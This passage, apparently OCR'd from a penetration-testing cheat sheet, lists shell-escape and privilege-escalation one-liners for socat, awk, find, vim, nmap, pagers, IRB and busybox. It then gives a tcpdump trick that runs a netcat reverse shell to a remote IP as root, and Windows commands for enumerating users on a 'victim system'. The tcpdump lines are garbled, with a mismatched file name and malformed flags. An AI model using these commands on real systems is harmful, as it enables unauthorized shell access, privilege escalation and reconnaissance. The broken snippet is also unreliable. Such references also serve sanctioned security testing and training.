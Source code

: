         -   ruby: exec \"/bin/sh\";

    -   **Socat**

        -   socat file:\`tty\`,raw,echo=0 tcp-listen:4444 \#listen

        -   socat exec:\'bash -li\',pty,stderr,setsid,sigint,sane tcp:127.0.0.1:4444 \#connect

    -   **Awk**

        -   awk \'BEGIN {system(\"/bin/sh\")}\'

    -   **find**

        -   find / -exec /usr/bin/awk \'BEGIN {system(\"/bin/sh\")}\' \\;

    -   **vim**

        -   :!bash   or

        -   :set shell=**/**bin**/**bash:shell

    -   **Nmap**

        -   Nmap --interactive

        -   :sh

    -   **{man , less , more}**

        -   !/bin/sh /

    -   **From within IRB**

        -   exec \"/bin/sh\"

    -   **From within Busybox**

        -   /bin/busybox telnetd -\|/bin/sh -p9999

    -   **From within Tcpdump**

        -   echo \$'id\\n/bin/netcat \$ip 443 --e /bin/bash' \> /tmp/.test\
            chmod +x /tmp/.test\
            sudo tcpdump --ln --I eth- -w /dev/null --W 1 --G 1 --z /tmp/.tst --Z root

-   <h2 align="center">Data Enumeration of the victim system</h2>

-   **Enumerating users:**

    -   **Windows**

        -   whoami

        -   echo %username%        -\> same as whoami

        -   net user \<user\>     -\> know info about that user

        -   whoami /all            -\> know info about that user

        -   net user               -\> know the users on the pc

        -   Get-LocalUser \| ft Name,Enabled,LastLogon    -\> powershell same as net user

        -   Get-ChildItem C:\\Users -Force \| select Name    -\> powershell same as net user
